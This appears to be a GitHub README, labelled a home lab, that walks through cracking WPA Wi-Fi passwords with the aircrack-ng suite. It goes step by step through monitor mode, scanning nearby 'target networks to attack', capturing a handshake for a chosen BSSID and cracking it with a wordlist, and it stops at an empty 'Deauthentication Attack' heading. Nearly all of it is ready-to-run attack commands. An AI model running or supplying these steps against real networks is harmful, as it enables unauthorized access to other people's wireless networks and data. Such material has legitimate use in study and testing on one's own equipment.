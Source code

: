 ### Wireless Hacking Process (Home Lab)

1. check connection wifi card

```bash
iwconfig
```
 - iwconfig is a Linux command used to configure a wireless network interface. In this context, it's used to check if the Wi-Fi card is connected and in what mode

![alt text](image-1.png)

2. Check if airmon-ng process exists and kill it if it does

```bash
airmon-ng check kill
```
- airmon-ng is a tool used to put the wireless interface into monitor mode. Before starting a new session, it's a good practice to ensure there are no existing airmon-ng processes running. 

3. Start airmon-ng in monitor mode on wlan0

```bash
airmon-ng start wlan0
```

![alt text](image-3.png)

- puts the wireless interface wlan0 into monitor mode, allowing it to capture all wireless frames, not just those intended for it. This is necessary for sniffing and attacking Wi-Fi networks.

1. check wlan0mon (monitor mode: activated)

```bash
iwconfig
```

- confirms that the interface is in monitor mode

![alt text](image-4.png)

5. Check for target networks to attack

```bash
airodump-ng wlan0
```

![alt text](image-5.png)

- monitor and capture packets on the wlan0mon interface. It displays a list of nearby wireless networks (targets), along with their BSSIDs (MAC addresses), channels, encryption types, and signal strengths.

6. Gain handshake for target network

```bash
airodump-ng -c <channel_router> --bssid <bssid_router> -w capture wlan0
```

![alt text](image-6.png)

- captures packets on the specified channel (<channel_router>) for the target network with the given BSSID (<bssid_router>). The -w capture option specifies the output file name (capture.cap in this case).

7. crack password pakai wodlist

```bash
aircrack-ng -w wordlist.txt -b <bssid_router> <file.cap>
```
#### Best Wordlist

![alt text](image-7.png)


- attempts to crack the password using the provided wordlist (wordlist.txt) and the target BSSID

### Deauthentication Attack

